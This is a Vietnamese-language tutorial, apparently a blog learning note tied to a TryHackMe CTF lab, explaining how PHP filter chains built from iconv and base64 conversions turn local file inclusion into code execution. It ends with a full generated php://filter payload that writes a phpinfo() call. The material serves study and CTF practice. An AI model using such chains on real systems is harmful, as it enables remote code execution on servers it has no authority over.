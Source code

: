 ```yaml
---
tags:
  - learning
  - ctf
  - pentest
title: PHP Filter Chain
post-date: 02-03-2025
update-date: 
category: learning
aliases:
---
```

> Bài viết được tham khảo từ https://hackmd.io/@endy/Skxms9eW2 của tác giả **endy**, xin cảm ơn tiền bối vì đã có những bài viết thực sự chất lượng cho thế hệ sau như em.
# Giới thiệu
![[Pasted image 20250302230330.png]]
Đối với mình việc tạo attack chain để nâng tầm lỗ hổng chưa bao giờ là đơn giản. Chẳng có gì có thể làm bạn cay hơn việc nghĩ mình đã làm được gì đó mà lại chẳng làm được gì. Đặc biệt là với LFI. Chẳng may hôm nay mình được thử sức với 1 lab của TryHackMe là **Cheese CTF**, thứ đã cho mình biết đến PHP Filter Chain, giúp từ LFI có thể dẫn tới RCE.

# Chuẩn bị trước khi ăn - Kiến thức cần biết
Liên quan tới PHP Filter Chain, ta phải tìm hiểu 3 vấn đề: **Hàm xử lý base64 trong PHP**, **Chuyển đổi giữa các bảng mã trong PHP** và **Prepended characters**.
## Chuyển đổi giữa các bảng mã trong PHP
Để chuyển đổi giữa các bảng mã trong PHP, ta sử dụng hàm `iconv`:
```bash
┌──(t6d㉿t6d)-[~]
└─$ php -r "echo iconv('UTF-8', 'ISO-8859-1//TRANSLIT', 'Euro €.');" 
Euro EUR.   
```
Ngoài ra ta cũng có thể sử dụng wrapper `convert.iconv.[bảng mã gốc].[bảng mã chuyển]`:
```bash
┌──(t6d㉿t6d)-[~]
└─$ echo "Euro €." > test.txt 
php -r "echo file_get_contents('php://filter/convert.iconv.utf-8.utf-7/resource=test.txt');" 
Euro +IKw.
```
## Xử lý base64 trong PHP
Trong PHP, có 2 cách để decode base64 là `base64_decode` và `convert.base64-decode`. Thông thường thì chúng sẽ có cách hoạt động như nhau:
```bash
┌──(t6d㉿t6d)-[~]
└─$ php -r 'echo base64_encode("t6d");'   
dDZk                                                                                
┌──(t6d㉿t6d)-[~]
└─$ php -r 'echo base64_decode("dDZk");'
t6d                                                                                
┌──(t6d㉿t6d)-[~]
└─$ echo "dDZk" > test.txt              
                                                                                
┌──(t6d㉿t6d)-[~]
└─$ php -r "echo file_get_contents('php://filter/convert.base64-decode/resource=test.txt');"
t6d         
```
Nếu ta thêm vài ký tự không có trong tập của base64 vào ciphertext thì cả 2 hàm đều tự động loại bỏ các ký tự đó.
```bash
┌──(t6d㉿t6d)-[~]
└─$ echo "dDZk@@" > test.txt                                                                                                                                                                                                                
┌──(t6d㉿t6d)-[~]
└─$ php -r "echo file_get_contents('php://filter/convert.base64-decode/resource=test.txt');"
t6d                                                                                                                                                                                                                                      
┌──(t6d㉿t6d)-[~]
└─$ php -r "echo base64_decode('dDZk@@')"                                                    

┌──(t6d㉿t6d)-[~]
└─$ php -r "echo base64_decode('dDZk@@');"
t6d   
```
Nhưng kỳ lạ thay, nếu thêm dấu `=` thì mọi chuyện lại khác, cụ thể thì:
```bash
┌──(t6d㉿t6d)-[~]
└─$ echo "dDZk==" > test.txt
                                                                                                                                                                                                                                              
┌──(t6d㉿t6d)-[~]
└─$ php -r "echo base64_decode('dDZk==');"
t6d                                                                                                                                                                                                                                              
┌──(t6d㉿t6d)-[~]
└─$ php -r "echo base64_decode('dDZk==');"
t6d                                                                                                                                                                                                                          
┌──(t6d㉿t6d)-[~]
└─$ php -r "echo file_get_contents('php://filter/convert.base64-decode/resource=test.txt');"
PHP Warning:  file_get_contents(): Stream filter (convert.base64-decode): invalid byte sequence in Command line code on line 1
```
Với `base64_decode` thì mọi thứ bình thường như với `convert.base64-decode`thì sẽ gây ra lỗi.
Để xử lý vấn đề này, ta sẽ chuyển dấu `=` từ `UTF-8` sang `UTF-7` bằng `iconv`:
```bash
┌──(t6d㉿t6d)-[~]
└─$ php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.UTF7/convert.base64-decode/resource=test.txt');"
t6d��� 
```
Câu hỏi là sao lại có mấy cái ký tự `�` thì câu trả lời là khi biến đổi từ `UTF-8` sang `UTF-7`, dấu `=` đã bị biến đổi thành mỗi chuỗi chứa ký tự không hợp lệ với Base64. Và như đã có nên lên ở trên, nếu là ký tự không hợp lệ, wrapper `convert.base64-decode` sẽ xóa nó, kết quả là nó bị biến đổi thành chuỗi ký tự không có nghĩa khi được decode:
```bash
┌──(t6d㉿t6d)-[~]
└─$ php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.UTF7/resource=test.txt');"
dDZk+AD0APQ
```
Như ví dụ ở trên thì ta thấy dấu `+` đã bị xóa đi và còn chuỗi `AD0APQ` khi decode sẽ được:
```bash
┌──(t6d㉿t6d)-[~]
└─$ echo "+AD0APQ" > test.txt                                                                                 
                                                                                                                                                
┌──(t6d㉿t6d)-[~]
└─$ php -r "echo file_get_contents('php://filter/convert.base64-decode/resource=test.txt');" 
���  
```
Quá trình biến đổi từ dấu `=` từ `UTF-8` sang `UTF-7` được biểu thị qua hình sau:
![[Pasted image 20250302235100.png]]
## Prepended characters
Một số bảng mã khi encode sẽ chèn thêm mội chuỗi vào trước text, hành động này được gọi prepended.
Một trong những ví dụ điển hình nhất đó chính là [Byte order mark (BOM)](https://en.wikipedia.org/wiki/Byte_order_mark). `BOM` tóm tắt là việc một chuỗi ký tự đặc biệt được chèn vào đầu của text khi encode, với mục đích như là [Magic number](https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files)của Unicode encoding, cho biết bảng mã nào đang được sử dụng, tránh việc decode sai.

| Encoding | Representation |
| :------: | :------------: |
|  UTF-7   |      +/v       |
|  UTF-8   |      ï»¿       |
|  UTF-16  |       þÿ       |
# Ăn cơm - Cách hoạt động của PHP Filter Chain
## Điều ta mong muốn
Điều ta mong muốn ở đây là thực thi được script của mình ở trong điều kiện:
```php
<?php file_get_contents($_GET['input']); ?>
```
## Tạo một ký tự theo ý muốn
Ở đây chúng ta sẽ có một ví dụ về việc tạo ra số `8`. Quy trình cụ thể như sau:
![[Pasted image 20250303101539.png]]
- Đầu tiên ta chuyển chuỗi `START` sang `UTF-16`, khi này ta được thêm prepended `/xff/xfe`.
- Tiếp tục chuyển qua bảng mã `LATIN6`, phần prepended được chuyển thành `ĸþ`. Việc chuyển đổi có thể xem bảng mã chuyển phía dưới, trong đó với ký tự `ĸ` với cột là `xF` và hàng là `Fx` được ghép thành `FF` và thêm biểu diễn `/x` ta có `/xff`.
![[Pasted image 20250303101337.png]]
- Khi này ta lại chuyển chuỗi về `UTF-16`, khi này ta được thêm prepended `/xff/xfe` kèm với ký tự `ĸ` được chuyển thành `/x01/x38`.
![[Pasted image 20250303101422.png]]
- Do để in ra thì phải chuyển lại ASCII hex nên khi in ra chuỗi ta có `/x38` là `8`
```php
<?php
$return = iconv( 'UTF8', 'UTF16', "START");
echo(bin2hex($return)."\n");
echo($return."\n");
$return2 = iconv( 'LATIN6', 'UTF16', $return);
echo(bin2hex($return2)."\n");
echo($return2."\n");
?>
```

```bash
fffe53005400410052005400
��START
fffe3801fe005300000054000000410000005200000054000000
��8�START
```
## Loại bỏ các thành phần thừa
Đây là phần khá phức tạp, ta sẽ đơn giản hóa nó rằng ta sẽ sử dụng việc encode decode base64 để xóa các ký tự không mong muốn. Dưới đây là quy trình để tạo ra ký tự `8`.
![[Pasted image 20250303105606.png]]
## Vấn đề đường dẫn hợp lệ
Khi sử dụng `include`, `require` hay `file_get_contents` thì ta cần có đường dẫn hợp lý. Để giải quyết cái này thì ta sử dụng wrapper `php://temp`
## Kết quả cuối cùng
Sau khi kết hợp lại tất cả các yếu tố trên, ta có script để sử dụng của [synacktiv](https://github.com/synacktiv/php_filter_chain_generator)
```bash
$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?>   (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiAg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
